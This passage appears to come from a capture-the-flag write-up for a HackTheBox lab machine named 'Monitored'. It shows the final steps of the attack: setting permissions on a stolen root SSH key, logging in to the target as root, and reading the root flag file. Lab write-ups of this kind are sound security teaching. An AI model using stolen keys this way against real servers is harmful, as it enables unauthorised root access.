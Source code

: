 ```
labadmin@labmachine:~/monitored$ ls -l monitored_root_id_rsa
-rw------- 1 labadmin labadmin 2602 May 16 02:31 monitored_root_id_rsa

labadmin@labmachine:~/monitored$ chmod 600 monitored_root_id_rsa
```

Using this key we can now login to target server as root.

```shell
labadmin@labmachine:~/monitored$ ssh -i monitored_root_id_rsa root@monitored.htb
...[OMITTED]...
root@monitored:~# whoami
root
```

And we get the root flag in root directory.

```shell
root@monitored:~# pwd
/root
root@monitored:~# ls -l
total 4
-rw-r----- 1 root root 33 May 16 00:02 root.txt
root@monitored:~# cat root.txt
...[OMITTED]...
```
